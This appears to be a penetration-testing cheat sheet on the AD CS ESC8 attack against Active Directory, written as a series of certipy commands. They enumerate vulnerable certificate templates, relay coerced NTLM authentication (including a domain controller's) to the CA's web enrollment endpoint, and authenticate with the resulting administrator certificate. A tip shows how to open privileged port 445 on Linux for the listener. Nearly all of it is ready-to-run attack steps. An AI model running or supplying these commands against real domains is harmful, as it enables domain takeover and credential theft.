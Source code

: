 # ADCS ESC8

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. NTLM Relay (Relaying Domain Controller account)
```
certipy relay \
    -target 'https://<IP_ADDRESS>' -template 'DomainController'
```

## 2b. NTLM Relay (Relaying User account)
```
certipy relay -target 'https://<IP_ADDRESS>'
```

## Tip: If you get a 'permission denied' while trying to listen on port 445, you can use the command (on Linux): 'echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start'

## 3. Coerce Authentication with other tool (Petitpotam, Coercer)

## 4. Certipy relays the authentication and requests a certificate

## 5. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
